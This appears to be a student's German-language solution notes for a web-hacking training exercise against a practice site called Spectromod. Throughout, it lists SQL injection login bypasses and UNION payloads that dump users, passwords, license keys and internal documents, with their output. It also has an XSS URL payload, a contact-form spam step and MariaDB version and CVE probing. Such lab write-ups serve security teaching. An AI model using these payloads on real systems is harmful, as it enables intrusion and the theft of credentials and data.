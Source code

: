 
== Übung Spectromod

=== URL Manipulation
Der noch nicht veröffentlichte Geschäftsbericht ist unter der URL verfügbar.

    https://www.spectromod.ch/schulung/spectromod/downloads/geschaeftsbericht-2011.doc

=== Lizenzschlüssel:

* Login via SQL-Injection mit Benutername und Passwort: test' or '1' = '1
* Der Loginstate wird auf 1 gesetzt. Danach mit admin anmelden.
* Passwort mit Brute-Force und SQL-Injection via Python-Script suchen. Resultat: admin/ADMIN

    Suprex GmbH: ACX21-KVA12-QXZ22-BER98
    Kantons Labor Zuerich: HAK00-VIR39-CVB12-LKE93
    Radix AG: FER11-LOB91-QIP76-LIP18
    Labor Analysen AG: KAP78-MIA98-AVK56-SIA18


=== Kundendaten

* Auslesen via SQL-Injection im Download-Bereich
.  SQL Injection:

   a' OR '1%' = '1

. UNION auf SQL Injection

   a' OR '1' = '1' UNION SELECT 1, 'Test', 'http://www.test.com' from information_schema.tables WHERE  '1%' = '1

. Informationen über SQL Schema

   ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spectromod User und Passwörter auslesen

   ' UNION SELECT concat(user, ' - ', password), '', 1 from spectromod.customer WHERE  '1%' = '1

    admin - ADMIN
    Suprex - e2fc714c47
    KtLaborZH - loewe
    Radix - winter2012
    LabAn - LabAn2011
    andrea.leuenberger - rOPaL10
    peter.sturm - ORox311%KV

=== Baupläne

* Auslesen via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'document' and '1%' = '1

     id
     title
     filename
     type

. Alle Dokumente auslesen

    a' UNION SELECT concat(id, ' - ', title, ' - ', filename, ' - ', type), '', 1 from document where '1%' = '1

    1 - Preisliste - preisliste-2010.xls - public
    2 - Geschaeftsbericht 2009 - geschaeftsbericht-2009.pdf - public
    3 - Organigramm - organigramm.pdf - public
    4 - IT-Netzwerk - netzwerk_001.pdf - internal
    6 - Platine Spectromod MASS 50 DX - platine.pdf - secret
    7 - Lohnliste - loehne.xls - internal
    8 - Geschaeftsbericht 2010 - geschaeftsbericht-2010.doc - public
    9 - Referenzen - referenzen.doc - public
    10 - Backup Notiz - datenbank-backup.pdf - internal
    11 - Brief Kundenplattform - welcome.doc - internal
    12 - Geschaeftsbericht2013 - geschaeftsbericht-2013.doc - intern

Platine ist unter https://www.spectromod.ch/schulung/spectromod/downloads/platine.pdf
Netzwerk ist unter https://www.spectromod.ch/schulung/spectromod/downloads/netzwerk_001.pdf

=== E-Mail

* Auslesen aller Kunden via SQL-Injection im Download Bereich

. Alle Tabellen auslesen

    ' UNION SELECT concat(table_schema, '.', table_name), '', 1 from information_schema.tables WHERE  '1%' = '1

. Alle Spalten der Tablle document auslesen

    ' UNION SELECT COLUMN_NAME, '', 1 from information_schema.columns where table_name = 'customer' and '1%' = '1

    id
    customer
    user
    email
    password
    key

. Admin E-Mail auslesen

   ' UNION SELECT concat(email, ' - ', password), '', 1 from spectromod.customer WHERE user = 'admin' AND '1%' = '1

    admin@spectromod.ch


=== XSS

     https://www.spectromod.ch/schulung/spectromod/content/index.php?id=1&image=%22%3E%3C/img%3E%3Cscript%3Ealert(%27hello%27);%3C/script%3E%3Cimg%20src=%22


=== Spam

* Post-Request mit Parameter name, email, subject, message via Python Script auf https://www.spectromod.ch/schulung/spectromod/kontakt/do-mail.php

== Weitere Versuche

*  Auslesen via SQL-Injection im Download Bereich


. MySQL User auslesen

  ' UNION SELECT user(), '', 1 from DUAL WHERE '1%' = '1

  myspectromod@localhost

. Versuch alle MySQL-User auszulesen und an Root Rechte zu kommen

    ' UNION SELECT CONCAT(QUOTE(user),'@',QUOTE(host)), '', 1 from mysql.user WHERE  '1%' = '1

    Funktioniert nicht. Zu wenig Privilegien

. MySQL Privilegien des Benutzers myspectromod auslesen

  ' UNION SELECT concat(grantee, ' - ',  privilege_type, ' - ', is_grantable), '', 1 FROM information_schema.user_privileges WHERE '1%' = '1

    USAGE (no privileges).

. MySQL Version auslesen

    ' UNION SELECT @@version, '', 1 from DUAL WHERE '1%' = '1

    5.5.49-MariaDB-1ubuntu0.14.04.1

. Check ob die Version irgenwelche Sicherheitslücken hat

    https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2016-3477

    Version 5.5.49 hat eine Sicherheitslücke mit CVSS Score 7.2 die mit 5.5.50 repariert wurde.
    MariaDB 5.5.50 Erscheinungsdatum ist 2016-06-17, MariaDB 5.5.49 am 2016-04-22.

    Im Git im Branch 5.5 Commits zwischen diesem Zeitraum überprüfen.
    https://github.com/MariaDB/server/commits/5.5

    Kandidat:
    https://github.com/MariaDB/server/commit/9d72fb4af0d87f6a69a3ccb9202b4029acf2bd56

